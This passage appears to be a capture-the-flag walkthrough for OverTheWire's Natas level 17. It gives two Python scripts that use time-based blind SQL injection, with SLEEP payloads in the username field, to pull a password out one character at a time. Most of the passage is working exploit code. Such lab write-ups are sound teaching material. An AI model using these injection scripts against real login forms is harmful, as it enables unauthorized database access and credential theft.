 ```python

for _ in range(32):  # assuming the password is 32 characters long
    for char in characters:
        sql = f'natas18" AND IF(password LIKE BINARY "{known_password}{char}%", SLEEP(2), null) #'
        response = session.post(url, data={'username': sql})
        if response.elapsed.total_seconds() > 2: # you can choose some other time too.
            known_password += char
            print(known_password)
            break

print(known_password)
```
This will give us our password and we are set to go for the next round.

**NOTE:** This takes a lot of time, so one trick that can be done is that check which all characters satisfy our password, then among them reorder for the password. This will reduce number of checking. The code for the above is-
```python
import requests
import string
pwd_len = 32

charset_0 = string.ascii_letters + string.digits
charset_1 = ''

target = 'http://natas17.natas.labs.overthewire.org/'
auth = ('natas17', '<password>')  # replace <password> with the actual password
sleep_time = 5

for c in charset_0:
	username = 'natas18" AND IF(password LIKE BINARY "%%%c%%",SLEEP(%d), 1)#' % (c, sleep_time)
	r = requests.get(target, auth=auth, params={"username": username}
	)
	s = r.elapsed.total_seconds()
	if s >= sleep_time:
		charset_1 += c
		print ('C: ' + charset_1.ljust(len(charset_0), '*'))


password = ""
while len(password) != pwd_len:
	for c in charset_1:
		t = password + c
		username = 'natas18" AND IF(password LIKE BINARY "%s%%",SLEEP(%d), 1)#' % (t, sleep_time)
		r = requests.get(target, auth=auth, params={"username": username}
		)
		s = r.elapsed.total_seconds()
		if s >= sleep_time:
			print ('P: ' + t.ljust(pwd_len, '*'))
			password = t
			break

print(password)
```

